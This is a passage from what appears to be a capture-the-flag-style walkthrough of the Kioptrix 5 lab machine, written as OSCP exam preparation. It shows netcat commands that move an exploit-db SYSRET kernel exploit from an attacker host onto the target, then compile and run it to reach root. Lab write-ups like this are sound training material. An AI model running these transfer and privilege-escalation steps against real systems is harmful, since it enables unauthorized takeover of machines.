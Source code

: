 Another quick Google search reveled that FreeBDS 9.0 was vulnerable to a [Intel SYSRET Kernel Privilege Escalation](https://www.exploit-db.com/exploits/28718/).

From here let's go ahead and copy over that exploit, open up a text editor and save it as a __.c__ file on your Kali box. Once that's done, open up a netcat connection and pipe the exploit file through it.

```console
root@kali:~# gedit sys.c
root@kali:~# nc -lvp 1234 < sys.c 
listening on [any] 1234 ...
```

Now that we have that waiting for us, let's navigate to the __/tmp__ folder on the Kioptrix Machine, and connect to our netcat connection - which will automatically download the exploit file for us.

```console
$ cd /tmp
$ nc -nv 192.168.1.3 1234 > sys.c
Connection to 192.168.1.3 1234 port [tcp/*] succeeded!
```

Yes! Let's compile the exploit and run it!

```console
$ gcc sys.c
$ ./a.out
[+] SYSRET FUCKUP!!
[+] Start Engine...
[+] Crotz...
[+] Crotz...
[+] Crotz...
[+] Woohoo!!!
$ whoami
root
```

## Closing:

Awesome job! We rooted the final Kioptrix Machine!

This level was way harder than the rest of the Kioptrix Machines. It included a new vulnerability through the use of a Directory Traversal, and also through the use of multiple exploits. This took me quite some time before I figured it out, but once I learned about the HTTPD Config file, it was smooth sailing from there.

Overall - for anyone that has completed these and is getting ready for the PWK and OSCP - just remember... never leave any stone unturned, think "outside the box", and always try to figure out how you can chain vulnerabilities and exploits to get somewhere you normally can't. Other than that, just remember to "__Try Harder__"!

Thanks for reading everyone!

And to those taking on the OSCP - god speed and good luck!
